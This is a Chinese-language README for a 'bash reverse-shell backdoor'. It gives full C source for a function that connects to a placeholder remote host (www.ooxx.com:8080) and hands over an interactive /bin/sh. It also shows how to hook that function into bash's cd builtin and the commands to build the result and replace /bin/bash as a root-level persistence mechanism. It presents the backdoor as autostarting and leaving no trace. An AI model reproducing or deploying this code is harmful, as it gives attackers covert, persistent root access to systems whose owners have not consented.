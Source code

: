 ## Bash版反弹shell后门

参考笔者在reverse_shell模块中写的各种反弹shell，一时脑洞大开，如何才能做到开机自启动
而又不会在系统中留下痕迹呢？经过笔者仔细对Linux系统启动流程的研究，发现在某些服务（或这进程）在开启的时候会调用`cd`命令,于是就想到了hook `cd`命令的想法。于是也就有了这个可以反弹shell的bash后门。

### 特点
> * 开机自启动
> * 不产生任何残留文件
> * 反弹root权限的shell
> * 支持反弹到IP或域名

### 安装

下载bash源码，找到`cd`命令的源码,替换cd.def文件并编译安装:
```shell
wget https://ftp.gnu.org/gnu/bash/bash-4.4-rc1.tar.gz
tar zxvf bash-4.4-rc1.tar.gz
cp ./cd.def ./bash-4.4-rc1/builtins/cd.def
./bash-4.4-rc1/configure
make && make install
```
你也可以在与目标机器相同的本地环境源码编译安装，再将编译到的bash二进制文件替换到/bin/bash即可。但是替换需要root权限，这一步想必你之前应该已经办到了^_^

### Payload
添加如下函数到cd.def文件中：
```c
/* start re_shell function */

#include <stdio.h>
#include <stdlib.h>
#include <sys/socket.h>
#include <netinet/in.h>
//#include <arpa/inet.h>
#include <unistd.h>
#include <netdb.h>
#include <arpa/inet.h>

int re_shell(){
    pid_t pid;
    if ((pid = fork()) == -1){
        exit(-1);
    }
    if (pid == 0) {   
        setsid();
        char *host = "www.ooxx.com"; //your server ip or domain
        int port = 8080; //conn port

        int sock;
        struct in_addr addr;
        struct hostent *h;
        struct sockaddr_in server;

        if((sock = socket(AF_INET, SOCK_STREAM, 0)) == -1) {
            exit(-1);
        }

        server.sin_family = AF_INET;
        server.sin_port = htons(port);

        if(! inet_pton(AF_INET, host, &addr)){
            if((h = gethostbyname(host)) == NULL) {
                exit(-1);
            }
            host = inet_ntoa(*((struct in_addr *)h->h_addr));
        }

        server.sin_addr.s_addr = inet_addr(host);

        if(connect(sock, (struct sockaddr *)&server, sizeof(struct sockaddr)) == -1) {
            exit(-1);
        }

        dup2(sock, 0);
        dup2(sock, 1);
        dup2(sock, 2);
        close(sock);
        execl("/bin/sh", "/bin/sh", "-i", NULL);
    }
    return 0;
}

/* end re_shell function */
```
然后将re_shell添加到cd_builtin这个函数（源码Line320）中来:
```c
316 int
317 cd_builtin (list)
318      WORD_LIST *list;
319     {
320         re_shell();
321          
322         char *dirname, *cdpath, *path, *temp;
```
当然在re_shell中，修改你需要反弹shell的远程IP和端口号。完整的cd.def可以参考我的demo。这里只是给出一个简单的示例，其实利用`cd`命令这个开启自启动的特点还可以做很多权限维持方面的东西，读者自由发挥。这里存在的不足是会改变bash二进制文件的md5，像checkroot之类的工具很容易检测到。



